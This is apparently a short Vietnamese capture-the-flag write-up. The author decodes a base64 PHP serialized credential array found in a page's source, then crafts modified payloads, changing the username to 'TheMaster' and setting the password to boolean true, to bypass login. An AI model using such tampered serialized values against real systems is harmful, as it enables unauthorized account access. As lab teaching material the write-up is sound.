

## Người thực hiện: Trần Ngọc Nam
## Thời gian thực hiện: 9/5/2022

- Ở level này, url không ở dạng có thể tấn công cùng với không có textbox để ta thực hiện chèn.
- Lần này, ta thử view source và nhận thấy có value lạ: <code>YToyOntzOjg6InVzZXJuYW1lIjtzOjY6Ik1vbmtleSI7czo4OiJwYXNzd29yZCI7czoxMjoiMDgxNXBhc3N3b3JkIjt9</code>.
  
  

- Sau khi thử nhiều kiểu mã hóa, ta được <code>a:2:{s:8:"username";s:6:"Monkey";s:8:"password";s:12:"0815password";}</code> theo kiểu base64.
  
  

- Ta dễ dàng thấy được username: <code>Monkey</code> và password: <code>0815password</code>.
- Nhưng level này yêu cầu ta login bằng <code>TheMaster</code>. Nên ta thử thay vào cột username của chuỗi base64 <code>a:2:{s:8:"username";s:6:"TheMaster";s:8:"password";s:12:"0815password";}</code>.
- Thực hiện mã hóa base64 <code>YToyOntzOjg6InVzZXJuYW1lIjtzOjY6IlRoZU1hc3RlciI7czo4OiJwYXNzd29yZCI7czoxMjoiMDgxNXBhc3N3b3JkIjt9</code> và thử đăng nhập. 
  
  

- Ta thử chuyển password về dạng booblean <code>a:2:{s:8:"username";s:9:"TheMaster";s:8:"password";b:1;}</code>. Và thực hiện mã hóa base64 thành <code>YToyOntzOjg6InVzZXJuYW1lIjtzOjk6IlRoZU1hc3RlciI7czo4OiJwYXNzd29yZCI7YjoxO30=</code>
  
  